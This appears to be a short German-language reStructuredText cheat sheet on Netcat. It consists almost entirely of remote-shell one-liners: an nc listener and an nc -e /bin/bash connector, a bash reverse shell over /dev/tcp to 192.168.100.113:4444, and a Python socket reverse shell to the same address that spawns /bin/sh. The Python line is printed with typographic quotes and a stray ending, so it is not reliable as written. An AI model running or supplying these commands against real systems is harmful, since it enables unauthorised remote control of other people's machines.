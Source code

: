 .. _nc_allg:

################
Netcat
################

Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''

